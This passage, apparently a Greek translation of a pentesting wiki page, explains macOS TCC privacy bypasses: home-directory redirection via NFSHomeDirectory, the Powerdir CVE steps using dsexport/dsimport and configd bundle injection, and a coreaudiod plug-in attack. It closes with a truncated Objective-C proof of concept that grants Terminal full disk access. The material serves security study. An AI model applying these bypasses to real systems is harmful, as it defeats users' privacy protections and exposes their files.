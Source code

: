 {% hint style="success" %}
Σημειώστε ότι η Apple χρησιμοποιεί τη ρύθμιση που αποθηκεύεται μέσα στο προφίλ του χρήστη στο χαρακτηριστικό **`NFSHomeDirectory`** για την **τιμή του `$HOME`**, οπότε αν διαρρεύσετε μια εφαρμογή με δικαιώματα να τροποποιήσει αυτήν την τιμή (**`kTCCServiceSystemPolicySysAdminFiles`**), μπορείτε να **ενοποιήσετε** αυτήν την επιλογή με ένα παράκαμψη TCC.
{% endhint %}

### [CVE-2020–9934 - TCC](./#c19b) <a href="#c19b" id="c19b"></a>

### [CVE-2020-27937 - Directory Utility](./#cve-2020-27937-directory-utility-1)

### CVE-2021-30970 - Powerdir

Το **πρώτο POC** χρησιμοποιεί τα [**dsexport**](https://www.unix.com/man-page/osx/1/dsexport/) και [**dsimport**](https://www.unix.com/man-page/osx/1/dsimport/) για να τροποποιήσει τον ΦΑΚΕΛΟ ΑΡΧΙΚΟΥ του χρήστη.

1. Λάβετε ένα _csreq_ blob για τη στόχο εφαρμογή.
2. Φυτέψτε ένα ψεύτικο αρχείο _TCC.db_ με την απαιτούμενη πρόσβαση και το _csreq_ blob.
3. Εξαγάγετε την εγγραφή υπηρεσιών καταλόγου του χρήστη με το [**dsexport**](https://www.unix.com/man-page/osx/1/dsexport/).
4. Τροποποιήστε την εγγραφή υπηρεσιών καταλόγου για να αλλάξετε τον κατάλογο αρχικού του χρήστη.
5. Εισαγάγετε την τροποποιημένη εγγραφή υπηρεσιών καταλόγου με το [**dsimport**](https://www.unix.com/man-page/osx/1/dsimport/).
6. Διακόψτε το _tccd_ του χρήστη και επανεκκινήστε τη διαδικασία.

Το δεύτερο POC χρησιμοποίησε το **`/usr/libexec/configd`** το οποίο είχε `com.apple.private.tcc.allow` με την τιμή `kTCCServiceSystemPolicySysAdminFiles`.\
Ήταν δυνατό να εκτελεστεί το **`configd`** με την επιλογή **`-t`**, όπου ένας επιτιθέμενος θα μπορούσε να καθορίσει ένα **προσαρμοσμένο Bundle για φόρτωση**. Επομένως, η εκμετάλλευση **αντικαθιστά** τη μέθοδο **`dsexport`** και **`dsimport`** για την αλλαγή του καταλόγου αρχικού του χρήστη με μια **ενσωμάτωση κώδικα configd**.

Για περισσότερες πληροφορίες ελέγξτε την [**αρχική αναφορά**](https://www.microsoft.com/en-us/security/blog/2022/01/10/new-macos-vulnerability-powerdir-could-lead-to-unauthorized-user
### CVE-2020-29621 - Coreaudiod

Το δυαδικό **`/usr/sbin/coreaudiod`** είχε τα entitlements `com.apple.security.cs.disable-library-validation` και `com.apple.private.tcc.manager`. Το πρώτο επιτρέπει την **εισαγωγή κώδικα** και το δεύτερο του δίνει πρόσβαση για **διαχείριση του TCC**.

Αυτό το δυαδικό επέτρεπε τη φόρτωση **plug-ins τρίτων** από τον φάκελο `/Library/Audio/Plug-Ins/HAL`. Επομένως, ήταν δυνατό να **φορτωθεί ένα πρόσθετο και να καταχραστούν οι άδειες του TCC** με αυτό το PoC:
```objectivec
#import <Foundation/Foundation.h>
#import <Security/Security.h>

extern void TCCAccessSetForBundleIdAndCodeRequirement(CFStringRef TCCAccessCheckType, CFStringRef bundleID, CFDataRef requirement, CFBooleanRef giveAccess);

void add_tcc_entry() {
CFStringRef TCCAccessCheckType = CFSTR("kTCCServiceSystemPolicyAllFiles");

CFStringRef bundleID = CFSTR("com.apple.Terminal");
CFStringRef pureReq = CFSTR("identifier \"com.apple.Terminal\" and anchor apple");
SecRequirementRef requirement = NULL;
SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
CFDataRef requirementData = NULL;
SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);

TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
```